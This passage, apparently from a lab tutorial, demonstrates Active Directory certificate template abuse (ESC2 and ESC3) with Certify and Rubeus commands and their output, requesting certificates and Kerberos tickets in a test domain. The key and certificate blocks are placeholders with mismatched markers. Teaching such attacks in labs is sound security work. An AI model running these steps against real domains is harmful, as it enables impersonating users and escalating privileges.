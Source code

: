 ```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:ESC2

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : ESC2
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 8

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3kT8F6PSyEzGCq5VJXpF8rTQoYmZ9BNQ3T4Uy8F0aGF9ZLQW
...certificate data...
-----END CERTIFICATE-----
```

Use certificate for client authentication (as the requesting user)

```bash
Rubeus.exe asktgt /user:missandei /certificate:anypurpose.pfx /password:mimikatz

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[+] TGT request successful!
```

The Any Purpose EKU can still be dangerous as it bypasses many certificate validation checks and can be used for code signing, server authentication, and other purposes beyond the intended use case.

## ESC3: Enrollment Agent Templates

ESC3 is a really cool technique that exploits certificate templates granting Certificate Request Agent (Enrollment Agent) permissions. Basically, you can request certificates on behalf of other users once you get an agent certificate.

### Attack Flow

The attack is pretty straightforward:
1. Request an Enrollment Agent certificate
2. Use that agent certificate to request certificates for other users  
3. Authenticate as those users

### Implementation

Let's see this in action with our GOAD environment:

Step 1: Request Enrollment Agent certificate
The built-in template is called "EnrollmentAgent" - clone it to ESC3-CRA for your lab if needed

```bash
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:EnrollmentAgent

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\khal.drogo
[*] Template                : EnrollmentAgent
[*] Subject                 : CN=khal.drogo, CN=Users, DC=essos, DC=local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 9

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAzGQ5VJXpF8rTQoYmZ9BNQ3T4Uy8F0aGF9ZLQWxkT8F6PSyEz
```